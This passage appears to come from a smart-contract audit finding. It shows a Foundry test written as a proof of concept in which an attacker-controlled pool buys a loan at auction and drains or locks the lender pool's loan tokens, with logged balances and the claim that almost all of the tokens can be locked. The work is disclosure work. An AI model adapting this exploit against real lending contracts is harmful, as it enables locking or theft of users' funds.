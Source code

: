 ```
            maxLoanRatio: 2 * 10 ** 18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        bytes32 poolIdAttack = lender.setPool(pAttack);
        (, , , , uint256 poolAttackBalance, , , , ) = lender.pools(
            poolIdAttack
        );
        assertEq(poolAttackBalance, 1000 * 10 ** 18);

        vm.startPrank(borrower);
        Borrow memory b = Borrow({
            poolId: poolId,
            debt: 100 * 10 ** 18,
            collateral: 200 * 10 ** 18
        });

        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = b;
        lender.borrow(borrows);

        (, , , , uint256 borrow, , , , ) = lender.pools(poolId);
        (, , , , uint256 borrowAttack, , , , ) = lender.pools(poolIdAttack);
        console.log("pool balance after borrow: ", borrow);
        console.log("poolAttack balance after borrow: ", borrowAttack);

        vm.startPrank(lender1);

        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;

        lender.startAuction(loanIds);
        skip(7200);
        (, , , , , , , , uint256 startTime, ) = lender.loans(0);
        console.log("the start time of the auction: ", startTime);

        lender.buyLoan(0, poolIdAttack);
        (, , , , uint256 buyLoan, , , , ) = lender.pools(poolId);
        (, , , , uint256 buyLoanAttack, , , , ) = lender.pools(poolIdAttack);
        console.log("pool balance after buy loan: ", buyLoan);
        console.log("poolAttack balance after buy loan: ", buyLoanAttack);
    }
```

Those are the outputs 

```
Logs:
  pool balance after borrow:  900000000000000000000
  poolAttack balance after borrow:  1000000000000000000000
  the start time of the auction:  1
  pool balance after buy loan:  1000002054794520547945
  poolAttack balance after buy loan:  899997716894977168950
```
With exact calculations almost all of the attacked pool loan tokens can be locked. 
